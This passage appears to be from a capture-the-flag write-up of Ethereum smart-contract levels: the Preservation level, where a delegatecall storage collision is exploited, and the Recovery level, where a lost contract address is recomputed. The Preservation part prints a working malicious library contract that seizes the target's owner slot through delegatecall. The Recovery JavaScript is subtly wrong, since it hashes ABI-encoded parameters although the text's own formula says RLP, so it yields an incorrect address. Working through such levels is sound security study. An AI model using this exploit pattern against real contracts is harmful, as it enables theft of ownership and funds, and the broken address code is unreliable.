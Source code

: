 This level tests understanding of delegatecall:
- delegatecall is a low-level function used to execute another contract's code in current contract's context.
- Attackers can use delegatecall to execute target contract's code and gain control of target contract.

Attack strategy:
1. Although LibraryContract's storedTime is in Slot 0 in its definition, due to use of delegatecall, its logic actually operates on Slot 0 of Preservation contract, i.e., timeZone1Library.
2. If timeZone1Library is set to attack contract address, can execute malicious contract logic through delegatecall and directly modify Slot 2 (owner).
3. Attack contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MaliciousLibrary {
    // Keep storage layout consistent with Preservation contract
    address public timeZone1Library; // Slot 0
    address public timeZone2Library; // Slot 1
    address public owner;            // Slot 2

    function setTime(uint256 _time) public {
        owner = address(uint160(_time)); // Convert uint256 to address and assign to owner
    }
}
```

Key learnings:
- Understanding how delegatecall works
- Storage layout consistency crucial when using delegatecall.
- Avoid external calls to untrusted contract addresses.

## 17. Recovery ✅ [Medium]

This level tests recovering lost contracts and funds through public blockchain data:
In Ethereum, contract address is calculated using formula: address = keccak256(rlp.encode([sender, nonce]))[12:]
sender is address creating contract. nonce is transaction count of that address.

Strategy:
Just find back address:
```js
const recoveryAddress = "RECOVERY_CONTRACT_ADDRESS"; // Replace with actual address
const nonce = 1; // Recovery contract's nonce, assume this is first deployment
const tokenAddress = web3.utils.toChecksumAddress(
  "0x" + web3.utils.keccak256(web3.eth.abi.encodeParameters(
    ["address", "uint256"],
    [recoveryAddress, nonce]
  )).slice(26)
);

console.log("Token Address:", tokenAddress);
```

